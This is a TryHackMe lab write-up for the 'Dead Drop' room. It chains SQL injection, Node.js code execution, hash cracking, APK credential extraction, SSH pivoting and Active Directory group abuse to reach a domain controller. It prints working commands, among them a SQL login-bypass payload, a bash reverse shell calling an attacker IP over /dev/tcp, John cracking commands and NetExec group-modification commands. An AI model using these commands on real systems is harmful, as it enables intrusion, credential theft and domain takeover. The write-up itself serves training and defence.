# TryHackMe — Dead Drop

## Overview

Room: Dead Drop
Platform: TryHackMe
Difficulty: Medium
Focus: SQL injection, database enumeration, Node.js remote code execution, password hash cracking, SSH access, Android APK reverse engineering, SSH dynamic port forwarding, Proxychains, BloodHound, Active Directory ACL abuse, and domain compromise.

Dead Drop involves compromising a Linux web server and using the resulting access to pivot into an internal Active Directory environment. The initial foothold comes from SQL injection in the web application's login page. After accessing the file manager, unsafe JavaScript preview functionality provides remote code execution. Further enumeration exposes a password hash that can be cracked to obtain SSH access as `svc-drop`.

An Android application found in the user's backup directory contains hardcoded Active Directory credentials. After establishing a SOCKS proxy through the compromised Linux host, the internal network can be enumerated. BloodHound identifies an exploitable group-membership permission, which provides the path to elevated domain privileges and the final flag on the domain controller.

## Attack Path

```text
Web application
        ↓
SQL injection authentication bypass
        ↓
Administrative file manager
        ↓
JavaScript execution / reverse shell
        ↓
Discover shadow backup
        ↓
Crack svc-drop password hash
        ↓
SSH access as svc-drop
        ↓
Retrieve and reverse-engineer Android APK
        ↓
Recover j.harris domain credentials
        ↓
SOCKS proxy into internal network
        ↓
BloodHound identifies AddMember permission
        ↓
Add j.harris to ITSUPPORT-Admins
        ↓
Access domain controller over WinRM
        ↓
Read flag
```

## 1. Initial Reconnaissance

### Nmap scan

The initial scan identified the exposed services on the target machine.

```bash
nmap -sC -sV 192.168.11.200
```

The scan identified:

- Port 22 — SSH
- Port 80 — HTTP

The environment also contained an internal Active Directory domain controller at `192.168.11.100` and a workstation at `192.168.11.51`. These internal systems became relevant after obtaining credentials and establishing access to the internal network.



### Finding

The target exposed SSH and HTTP, providing the initial services to investigate.

### Vulnerability

No vulnerability was confirmed by scanning alone. The HTTP service was the entry point for further testing.

## 2. SQL Injection Authentication Bypass

### Accessing the web application

Browsing to the target's HTTP service revealed the **DeadDrop Secure File Sharing Platform** login page.

**Screenshot:** `02-login-page.png`

### Bypassing authentication

The login form was vulnerable to SQL injection. Entering the following payload in the username field bypassed authentication:

```text
admin' OR 1=1 --
```

The payload altered the application's SQL condition so that it evaluated as true, allowing access without supplying a password.



### Finding

The SQL injection payload granted access to the application without valid credentials.

### Vulnerability

The login form incorporated user-controlled input into a database query without safely parameterizing the query. This allowed an attacker to manipulate the authentication condition.

## 3. Administrative File Manager and Remote Code Execution

### Inspecting the file manager

After bypassing authentication, the administrative interface exposed file-management functionality, including the ability to upload and preview files.

Further investigation of the application's JavaScript execution behavior showed that the application used Node.js and Express functionality that loaded files using `require(filePath)`. This allowed uploaded JavaScript to execute on the server when processed through the vulnerable functionality.

Existing files, including `payload.js` and `reverse.js`, provided further clues about the application's behavior and the next stage of the attack.




### Preparing the reverse shell

A JavaScript payload named `shell.js` was prepared to initiate a reverse shell to the attacking machine.

The callback address and port must match the attacking machine's reachable IP address and the listener port. The command below uses the callback address from the attack notes:

```text
require('child_process').exec('bash -c "bash -i >& /dev/tcp/192.168.21.6/4444 0>&1"');
```

Start a listener on the attacking machine:

```bash
nc -lvnp 4444
```

Upload and trigger `shell.js` through the vulnerable file-management functionality. When the payload executes successfully, the target initiates a connection back to the listener.




### Finding

The file-management functionality enabled server-side execution of attacker-controlled JavaScript and provided a path to a shell on the target.

### Vulnerability

The application treated uploaded or user-controlled files as executable Node.js modules. This unsafe file-loading behavior enabled remote code execution.

## 4. Recovering the `svc-drop` Credentials

### Locating the shadow backup

After obtaining shell access, further investigation revealed a backup file at:

```bash
cat /home/svc-drop/backup/shadow.bak
```

The file contained a password-hash entry for `svc-drop`. The hash used the `$6$` prefix, indicating SHA-512 crypt.

**Screenshot:** `07-shadow-backup.png`



### Cracking the password hash

Save the complete hash entry in a file named `hash.txt`. The actual hash must be copied in full from the target; a truncated hash will not work.

Run John the Ripper with the SHA-512 crypt format and the RockYou wordlist:

```bash
john --format=sha512crypt --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

Display the recovered result:

```bash
john --show hash.txt
```




### Finding

The backup contained a password hash that could be cracked offline, recovering the password for `svc-drop`.

### Vulnerability

Sensitive authentication material was stored in an accessible backup. A weak password allowed the password hash to be recovered through offline cracking.

## 5. SSH Access as `svc-drop`

Use the recovered credentials to connect to the target over SSH:

```bash
ssh svc-drop@192.168.11.200
```

When prompted, enter the recovered password and establish an authenticated SSH session as `svc-drop`.



### Finding

The cracked password enabled SSH access as the `svc-drop` account.

### Security implication

The account's password was weak enough to recover from its stored hash. Password strength and protection of backup files were therefore critical weaknesses in the compromise.

## 6. Discovering and Retrieving the Android APK

### Locating the APK

The compromised account's backup directory contained the Android application package:

```bash
cat /home/svc-drop/backup/deaddrop-mobile.apk
```

Transfer the APK to the attacking machine:

```bash
scp svc-drop@192.168.11.200:/home/svc-drop/backup/deaddrop-mobile.apk /home/deaddrop-mobile.apk
```

### Finding

The APK was stored in a directory accessible to the compromised account and could be retrieved for offline analysis.

## 7. Reverse-Engineering the APK

### Inspecting the application

Open the APK with JADX and inspect the package containing the application's configuration:

```text
com/deaddrop/mobile/config
```

The reverse-engineered configuration exposed an internal API endpoint and hardcoded credentials.

```text
api_endpoint: http://internal.tryhackme.loc/api/v1
default_username: j.harris
default_password: <REDACTED>
```

The recovered credentials were:

```text
Username: j.harris
Password: <REDACTED>
```



### Finding

The APK exposed the internal API endpoint and credentials for the domain user `j.harris`.

### Vulnerability

Sensitive credentials were embedded in a client-side application package. Anyone who obtained the APK could inspect its contents and recover those credentials.

## 8. Establishing a SOCKS Proxy into the Internal Network

### Starting the SSH dynamic port forward

Use SSH dynamic port forwarding to expose a local SOCKS proxy through the compromised Linux host:

```bash
ssh -D 1080 svc-drop@192.168.11.200
```

Keep this SSH session running while performing internal network enumeration.


### Configuring ProxyChains

Open the ProxyChains configuration file:

```bash
sudo nano /etc/proxychains.conf
```

Ensure the `proxy_dns` setting is enabled if required for the intended hostname-based access. Add or update the SOCKS proxy entry:

```text
socks4 127.0.0.1 1080
```

Save the configuration. Commands intended for the internal network can now be routed through the proxy using `proxychains`.


### Finding

The compromised Linux host provided a route into the internal network through SSH dynamic port forwarding.

### Security implication

The host acted as a pivot point between the externally accessible target and internal Active Directory infrastructure.

## 9. Active Directory Enumeration with BloodHound

### Collecting and preparing BloodHound data

The attack notes identified BloodHound JSON files with names beginning:

```text
20261019064431_*.json
```

Package the collected files:

```bash
zip bloodhound_data.zip 20261019064431_*.json
```

Start Neo4j:

```bash
sudo neo4j start
```

Open BloodHound and import the collected data into the application.


### Identifying the privilege-escalation path

BloodHound showed that `j.harris` had the **AddMember** permission over the `ITSupport-Admins` group.

This permission was the key relationship in the privilege-escalation path. It meant that the compromised domain user's access could be increased by adding the user to the group, provided the permission was valid and the operation succeeded.



### Finding

BloodHound identified an exploitable group-membership permission associated with `j.harris`.

### Vulnerability

The Active Directory permissions allowed `j.harris` to modify membership of a privileged group. Excessive or incorrectly assigned group-management rights can enable privilege escalation.

## 10. Adding `j.harris` to `ITSUPPORT-Admins`

Use NetExec through ProxyChains to attempt the group-membership modification against the domain controller at `192.168.11.100`:

```bash
proxychains nxc smb 192.168.11.100 -u 'j.harris' -p '<REDACTED>' -M modify-group -o action=add group="ITSUPPORT-Admins" user="j.harris"
```

Review the command output to confirm whether the group-membership change succeeded.



### Finding

The identified AddMember relationship provided a path to increase the privileges of `j.harris` by modifying Active Directory group membership.

## 11. Accessing the Domain Controller and Retrieving the Flag

### Enumerating the Administrator desktop

Use NetExec's WinRM functionality through ProxyChains to list the contents of the Administrator desktop on the domain controller:

```bash
proxychains nxc winrm 192.168.11.100 -u 'j.harris' -p '<REDACTED>' -x 'dir C:\Users\Administrator\Desktop\\'
```

### Reading the flag

Read the flag file using the same authenticated WinRM access:

```bash
proxychains nxc winrm 192.168.11.100 -u 'j.harris' -p '<REDACTED>' -x 'type C:\Users\Administrator\Desktop\flag.txt'
```

The recovered flag was:

```text
THM{REDACTED}
```



### Finding

The final stage reached the domain controller and retrieved the flag from the Administrator desktop.


## Key Vulnerabilities

| Vulnerability | Impact |
|---|---|
| SQL injection in the login form | Authentication bypass without a password |
| Unsafe JavaScript file loading | Remote code execution through the file manager |
| Exposed password hash in a backup | Offline password cracking |
| Weak `svc-drop` password | SSH access after cracking the hash |
| Hardcoded credentials in the Android APK | Recovery of internal domain credentials |
| Excessive Active Directory group-membership permissions | Privilege escalation through group modification |

## Lessons Learned

- Test authentication forms for SQL injection and use parameterized queries.
- Do not load untrusted or user-controlled files as executable modules.
- Keep password hashes and other authentication material out of accessible backup files.
- Use strong, unique passwords and protect backups with appropriate access controls.
- Never embed reusable credentials in mobile applications; treat all client-side code as inspectable.
- Restrict Active Directory group-management permissions according to least privilege.
- Review BloodHound relationships to identify privilege-escalation paths.
- Treat a compromised internal host as a potential pivot into the wider network.

